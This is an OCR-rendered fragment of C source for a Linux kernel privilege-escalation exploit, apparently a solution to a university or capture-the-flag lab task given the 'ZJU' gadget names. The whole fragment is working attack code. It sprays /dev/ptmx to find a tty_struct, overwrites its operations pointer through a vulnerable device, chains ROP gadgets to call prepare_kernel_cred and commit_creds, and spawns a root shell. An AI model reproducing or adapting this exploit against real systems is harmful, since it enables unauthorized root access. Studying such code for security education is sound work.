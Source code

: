 ```c
}

int init_ptmx(int dev_fd) {
    int ptmx_fd;
    for (;;) {
        ptmx_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        memset(tty_buf, '\0', sizeof(tty_buf));
        read(dev_fd, tty_buf, TTY_STRUCT_SIZE - 1);

        for (size_t i = 0; i < TTY_STRUCT_SIZE; i += 8) {
            char v_str[9];
            memcpy(v_str, tty_buf + i, 8);
            v_str[8] = '\0';
            printf("tty_buf + %lu = 0x%lx\n", i, *(size_t*)v_str);
        }
        size_t magic = 0;
        memcpy(&magic, tty_buf, 4);
        if (magic == TTY_MAGIC) break; 
        printf("\n");
    }
    printf("TTY_MAGIC match! ptmx_fd = %d\n", ptmx_fd);
    return ptmx_fd;
}

void exp_task3(int dev_fd, int ptmx_fd) {
    printf("Jump into exp_task3!\n");
    memset(tty_op_buf, '\0', sizeof(tty_op_buf));
    char my_buf[0x40];
    size_t ptr = (size_t)(&tty_op_buf);
    size_t prepare_kernel_cred_addr = PREPARE_KERNEL_CRED_ADDR;
    size_t commit_creds_addr = COMMIT_CREDS_ADDR;
    memcpy(my_buf, tty_buf, 0x40);
    memcpy(my_buf + 24, &ptr, 8);
    memcpy(my_buf + 0x28, &prepare_kernel_cred_addr, 8);
    memcpy(my_buf + 0x38, &commit_creds_addr, 8);
    write(dev_fd, my_buf, 0x40);
    tty_op_buf[12] = ZJU_GADGET_THREE_ADDR;
    size_t tty_addr = ioctl(ptmx_fd, 0x0, 0x0) | 0xffff000000000000;
    printf("tty_addr = 0x%lx\n", tty_addr);
    tty_op_buf[12] = ZJU_GADGET_TWO_ADDR;
    commit_creds_addr = ioctl(ptmx_fd, 0x0, my_buf) | 0xffff000000000000;
    printf("commit_creds_addr = 0x%lx\n", commit_creds_addr);
    tty_op_buf[12] = ZJU_GADGET_ONE_ADDR;
    ioctl(ptmx_fd, 0x0, commit_creds_addr);
    system("/bin/sh");
    return;
}

int main(int argc, char* argv[]) {
    int dev_fd = init_dev();
	int ptmx_fd = init_ptmx(dev_fd);
    exp_task3(dev_fd, ptmx_fd);
    return 0;
}
```
